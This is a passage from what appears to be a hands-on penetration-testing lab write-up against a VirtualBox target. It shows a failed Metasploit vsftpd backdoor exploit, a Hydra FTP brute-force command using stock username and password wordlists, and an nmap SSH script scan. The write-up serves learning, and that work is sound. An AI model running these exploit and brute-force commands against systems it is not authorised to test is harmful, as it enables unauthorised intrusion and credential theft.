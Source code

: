 ```

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

[msf](Jobs:0 Agents:0) exploit(linux/ftp/amdorj_vsftpd_backdoor) >> set rhosts 192.168.1.111
rhosts => 192.168.1.111
[msf](Jobs:0 Agents:0) exploit(linux/ftp/amdorj_vsftpd_backdoor) >> exploit

[-] 192.168.1.111:21 - Banner: 220 (vsFTPd 3.0.3)
[*] 192.168.1.111:21 - USER: 331 Please specify the password.
^C[*] Exploit completed, but no session was created.
[msf](Jobs:0 Agents:0) exploit(linux/ftp/amdorj_vsftpd_backdoor) >> 

```

So I change plan to use brute force attack to get with username/password by using hydra instead

`hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ftp://192.168.1.110`

OK the result is timeout I think it should be done

### SSH Protocol
I know from nmap result
`OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)`

I need more information so I try with nse script for ssh
```
parrot# nmap -sC -p 22 192.168.1.111
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-06 12:27 +07
Nmap scan report for 192.168.1.111
Host is up (0.00030s latency).

PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   2048 c7:44:58:86:90:fd:e4:de:5b:0d:bf:07:8d:05:5d:d7 (RSA)
|   256 78:ec:47:0f:0f:53:aa:a6:05:48:84:80:94:76:a6:23 (ECDSA)
|_  256 99:9c:39:11:dd:35:53:a0:29:11:20:c7:f8:bf:71:a4 (ED25519)
MAC Address: 08:00:27:3E:CE:D9 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.57 seconds 
```
